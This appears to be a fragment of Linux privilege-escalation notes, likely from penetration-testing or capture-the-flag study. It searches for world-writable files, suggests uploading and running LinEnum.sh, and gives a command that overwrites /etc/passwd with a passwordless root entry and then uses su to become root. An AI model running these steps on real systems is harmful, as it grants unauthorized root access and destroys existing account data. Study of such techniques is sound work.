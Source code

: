 # find all files that are world writeable, irrespective of what other permissions they have, you can do:
# what files can you edit?
# is /etc/passwd there? if so "echo root::0:0:root:/root:/bin/bash > /etc/passwd" then do su to become root
find / -perm -o+w 2>/dev/null

# upload LineEnum.sh and run it
# what files can you see? what access do you have?


